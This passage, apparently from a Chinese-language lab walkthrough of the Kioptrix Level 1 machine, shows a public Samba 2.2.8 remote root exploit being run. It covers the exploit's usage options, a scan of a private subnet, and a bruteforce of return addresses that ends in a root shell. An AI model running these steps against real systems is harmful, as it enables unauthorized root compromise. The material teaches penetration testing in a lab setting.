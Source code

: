 希望前一步相当轻松；清理其他人提供的代码可能是一个麻烦的过程。如果漏洞代码编译正确，我们可以简单地执行它以查看预期的其他输入：

```
# ./SambaVuln10 

```

此命令的输出如下所示：

```
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
Usage: ./SambaVuln10 [-bBcCdfprsStv] [host]
-b <platform> bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
-B <step> bruteforce steps (default = 300)
-c <ip address> connectback ip address
-C <max childs> max childs for scan/bruteforce mode (default = 40)
-d <delay> bruteforce/scanmode delay in micro seconds (default = 100000)
-f force
-p <port> port to attack (default = 139)
-r <ret> return address
-s scan mode (random)
-S <network> scan mode
-t <type> presets (0 for a list)
-v verbose mode

```

我们已经知道关于目标机器的几个关键项目，包括它很可能运行 Linux，IP 地址是 192.168.75.14。让我们使用漏洞的扫描模式来查看是否有我们遗漏的有趣内容：

```
./SambaVuln10 -v -d 0 -S 192.168.75 

```

```
Samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Scan mode.
+ Verbose mode.
+ [192.168.75.14] Samba

```

我们可以看到，我们的目标机器是通过 `eSDee`在[www.netric.org](http://www.netric.org)上进行的概念验证远程根攻击发现的。现在我们将继续前进，最终利用这台机器。

```
# ./SambaVuln10 -b 0 -v 192.168.75.14 

```

我们调用 `SambaVuln10`文件；让它知道目标系统是 Linux，并提供显示详细结果的说明。结果如下：

```
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Verbose mode.
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Using ret: [0xbffffed4]
+ Using ret: [0xbffffda8]
+ Using ret: [0xbffffc7c]
+ Using ret: [0xbffffb50]
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
```